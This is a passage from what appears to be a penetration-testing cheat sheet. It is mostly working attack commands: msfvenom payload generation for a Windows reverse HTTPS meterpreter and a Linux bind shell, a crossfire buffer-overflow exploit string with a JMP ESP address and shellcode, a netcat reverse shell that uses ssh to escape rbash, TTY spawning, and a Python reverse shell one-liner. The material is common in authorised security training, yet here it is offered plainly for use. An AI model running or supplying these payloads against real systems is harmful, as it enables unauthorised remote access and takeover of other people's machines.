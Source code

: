     -   Create a PE Reverse HTTPS shell
        msfvenom -p windows/meterpreter/reverse\_https LHOST=$ip
        LPORT=443 -f exe -o met\_https\_reverse.exe

-   Linux Buffer Overflows

    -   Run Evans Debugger against an app
        edb --run /usr/games/crossfire/bin/crossfire

    -   ESP register points toward the end of our CBuffer
        add eax,12
        jmp eax
        83C00C add eax,byte +0xc
        FFE0 jmp eax

    -   Check for “Bad Characters” Process of elimination - Run multiple
        times 0x00 - 0xFF

    -   Find JMP ESP address
        "\\x97\\x45\\x13\\x08" \# Found at Address 08134597

    -   crash = "\\x41" \* 4368 + "\\x97\\x45\\x13\\x08" +
        "\\x83\\xc0\\x0c\\xff\\xe0\\x90\\x90"

    -   msfvenom -p linux/x86/shell\_bind\_tcp LPORT=4444 -f c -b
        "\\x00\\x0a\\x0d\\x20" –e x86/shikata\_ga\_nai

    -   Connect to the shell with netcat:
        nc -v $ip 4444

Shells
===================================================================================================================================

-   Netcat Shell Listener

    `nc -nlvp 4444`

-   Spawning a TTY Shell - Break out of Jail or limited shell
         You should almost always upgrade your shell after taking control of an apache or www user.

        (For example when you encounter an error message when trying to run an exploit sh: no job control in this shell )

        (hint: sudo -l to see what you can run)

     -   You may encounter limited shells that use rbash and only allow you to execute a single command per session.
         You can overcome this by executing an SSH shell to your localhost:

               ssh user@$ip nc $localip 4444 -e /bin/sh
               enter user's password
               python -c 'import pty; pty.spawn("/bin/sh")'
               export TERM=linux

      `python -c 'import pty; pty.spawn("/bin/sh")'`

               python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);          s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'
